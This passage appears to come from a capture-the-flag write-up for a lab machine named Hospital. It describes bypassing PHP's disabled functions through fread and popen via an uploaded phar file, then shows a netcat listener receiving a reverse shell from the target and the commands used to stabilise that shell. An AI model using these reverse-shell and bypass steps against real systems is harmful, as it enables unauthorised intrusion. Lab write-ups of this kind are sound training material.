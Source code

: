 Searching in google we found [this page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass) in which we can see that we can bypass this with the function fread and popen because they are not disabled in phpinfo. I will test it:

![Branching](/assets/images/Hospital/uploading_final_phar.png)

![Branching](/assets/images/Hospital/testing_final_phar.png)

Now i will proceed to establish a reverse shell connection:

![Branching](/assets/images/Hospital/establish_shell.png)

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.124] from (UNKNOWN) [10.10.11.241] 6526
bash: cannot set terminal process group (981): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@webserver:/var/www/html/uploads$ ^Z
zsh: suspended  nc -lvnp 443
                                                                                                                                                                                        
❯ stty raw -echo;fg
```